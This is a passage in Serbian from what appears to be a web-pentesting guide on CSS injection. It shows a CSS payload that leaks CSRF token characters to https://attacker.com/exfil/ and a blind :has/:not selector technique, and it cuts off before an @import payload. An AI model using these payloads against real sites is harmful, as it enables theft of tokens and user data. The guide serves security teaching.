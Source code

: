 ```css
input[name=csrf][value^=csrF] ~ * {
background-image: url(https://attacker.com/exfil/csrF);
}
```

#### Preduslovi za CSS ubacivanje

Da bi tehnika CSS ubacivanja bila efikasna, moraju biti ispunjeni određeni uslovi:

1. **Dužina Payload-a**: Vektor CSS ubacivanja mora podržavati dovoljno dugačke payload-e da bi mogao da smesti oblikovane selektore.
2. **Ponovna evaluacija CSS-a**: Trebalo bi da imate mogućnost da okvirno postavite stranicu, što je neophodno da bi se pokrenula ponovna evaluacija CSS-a sa novim generisanim payload-ima.
3. **Spoljni Resursi**: Tehnika pretpostavlja mogućnost korišćenja slika hostovanih spolja. Ovo može biti ograničeno politikom bezbednosti sadržaja (CSP) sajta.

### Slepi selektor atributa

Kao što je [**objašnjeno u ovom postu**](https://portswigger.net/research/blind-css-exfiltration), moguće je kombinovati selektore **`:has`** i **`:not`** kako bi se identifikovao sadržaj čak i iz slepih elemenata. Ovo je veoma korisno kada nemate pojma šta se nalazi unutar web stranice koja učitava CSS ubacivanje.\
Takođe je moguće koristiti ove selektore kako bi se izvukle informacije iz nekoliko blokova istog tipa kao u:

```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
background:url(/m);
}
</style>
<input name=mytoken value=1337>
<input name=myname value=gareth>
```

Kombinovanjem ove tehnike sa sledećom **@import** tehnikom, moguće je eksfiltrirati mnogo **informacija korišćenjem CSS ubacivanja sa slepih stranica pomoću** [**blind-css-exfiltration**](https://github.com/hackvertor/blind-css-exfiltration)**.**

### @import

Prethodna tehnika ima neke nedostatke, proverite preduslove. Morate ili biti u mogućnosti da **pošaljete više linkova žrtvi**, ili morate biti u mogućnosti da **ubacite iframe na stranicu ranjivu na CSS ubacivanje**.

Međutim, postoji još jedna pametna tehnika koja koristi **CSS `@import`** da bi poboljšala kvalitet tehnike.

Ovo je prvi put pokazao [**Pepe Vila**](https://vwzq.net/slides/2019-s3\_css\_injection\_attacks.pdf) i radi na sledeći način:

Umesto učitavanja iste stranice iznova i iznova sa desetinama različitih payloada svaki put (kao u prethodnoj tehnici), mi ćemo **učitati stranicu samo jednom i samo sa importom ka serveru napadača** (ovo je payload koji treba poslati žrtvi):
